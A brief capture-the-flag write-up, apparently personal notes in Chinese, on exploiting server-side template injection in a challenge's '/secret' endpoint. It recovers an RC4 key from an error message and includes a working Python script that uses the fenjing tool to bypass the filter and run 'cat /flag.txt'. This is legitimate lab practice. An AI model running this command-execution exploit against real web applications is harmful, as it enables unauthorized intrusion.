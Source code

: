 - # 思路
  id:: 64b57451-c669-40ab-98ed-c8de91a1fc2e
	- 通过报错读取加密密钥+SSTI
- # 报错
	- 猜出SSTI URI为`/secret`，参数为`secret`
	- 提交`/secret?secret=114514`发现关键语句`rc=rc4_Modified.RC4("HereIsTreasure")   #解密`
- # SSTI
	- 写一个WAF函数传给fenjing即可
	- 坑： ((64aa797b-5c66-46bd-8e25-dd7a6c1a85ac))
	- 代码：
		- ```python
		  from Crypto.Cipher import ARC4
		  from urllib.parse import quote
		  import functools
		  import requests
		  import fenjing
		  
		  url = "http://node3.anna.nssctf.cn:28163"
		  
		  def encode(s):
		      cipher = ARC4.new(b"HereIsTreasure")
		      ciphertext = cipher.encrypt(s.encode("latin-1"))
		      return quote("".join(chr(c) for c in ciphertext).encode())
		  
		  @functools.lru_cache(1000)
		  def waf(s):
		      print(s)
		      r = requests.get(f"{url}/secret?secret=" + encode(s))
		      return "not allowed" not in r.text
		  
		  if __name__ == "__main__":
		      payload, will_print = fenjing.exec_cmd_payload(waf, "cat /flag.txt")
		      if not will_print:
		          print("payload不会产生回显")
		      r = requests.get(f"{url}/secret?secret=" + encode(payload))
		      print(payload)
		      print(r.text)
		  
		  ```